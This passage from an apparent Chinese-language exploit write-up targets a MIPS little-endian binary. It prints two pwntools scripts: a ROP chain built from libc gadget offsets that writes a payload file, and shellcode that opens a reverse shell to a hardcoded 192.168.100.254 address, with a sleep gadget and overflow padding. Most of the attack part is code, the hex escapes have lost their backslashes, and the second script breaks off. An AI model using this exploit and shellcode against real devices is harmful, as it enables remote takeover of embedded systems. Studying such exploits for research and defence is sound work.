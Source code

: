 ```
data += "eeee" #s4
data += p32(libc_base+gadget1) #s5
data += "ffff" #s6
data += "gggg" #s7
data += "aaaa" #gp
data += p32(libc_base+gadget2) #ra
data += "b"*0x10
data += cmd
f=open("content","wb")
f.write(data)
f.close()
```

这个exp的实现，首先是基于上面user的部分修改的，然后执行的指令的话，是根据mipsel虚拟机里面的指令来写的，实际的指令可以修改。我们可以看到里面的命令如下：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01f1a63f724a7d2a1a.png)

最后执行的结果如下：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01514b44f6b34e99d9.png)

2）我们接下来看第二个exp如下：

```
from pwn import *
context.arch = 'mips'
context.endian = 'little'
payload= "x26x40x08x01"*4
payload += "xffxffx04x28xa6x0fx02x24x0cx09x09x01x11x11x04x28"
payload += "xa6x0fx02x24x0cx09x09x01xfdxffx0cx24x27x20x80x01"
payload += "xa6x0fx02x24x0cx09x09x01xfdxffx0cx24x27x20x80x01"
payload += "x27x28x80x01xffxffx06x28x57x10x02x24x0cx09x09x01"
payload += "xffxffx44x30xc9x0fx02x24x0cx09x09x01xc9x0fx02x24"
payload += "x0cx09x09x01x79x69x05x3cx01xffxa5x34x01x01xa5x20"
#payload += "xf8xffxa5xafx01xb1x05x3cxc0xa8xa5x34xfcxffxa5xaf"              # 192.168.1.177
#payload += "xf8xffxa5xafx03x84x05x3cxc0xa8xa5x34xfcxffxa5xaf"               # 192.168.3.132
payload += "xf8xffxa5xafx64xfex05x3cxc0xa8xa5x34xfcxffxa5xaf"               # 192.168.100.254
payload += "xf8xffxa5x23xefxffx0cx24x27x30x80x01x4ax10x02x24"
payload += "x0cx09x09x01x62x69x08x3cx2fx2fx08x35xecxffxa8xaf"
payload += "x73x68x08x3cx6ex2fx08x35xf0xffxa8xafxffxffx07x28"
payload += "xf4xffxa7xafxfcxffxa7xafxecxffxa4x23xecxffxa8x23"
payload += "xf8xffxa8xafxf8xffxa5x23xecxffxbdx27xffxffx06x28"
payload += "xabx0fx02x24x0cx09x09x01"
shellcode = payload
libc_base = 0x77f34000
sleep_offset = 0x56BD0
gadget1 = 0x57E50   
gadget2 = 0x0003E524
gadget3 = 0x0000B814
gadget4 = 0x00037E6C
data = "a"*969
data += "aaaa" #s0
data += p32(libc_base+gadget2) #s1
data += p32(libc_base+sleep_offset) #s2
data += "aaaa" #s3
data += "aaaa" #s4
data += "aaaa" #s5
data += "aaaa" #s6
data += "aaaa" #s7
data += "aaaa" #gp
data += p32(libc_base+gadget1) #ra
data += "b"*0x18
```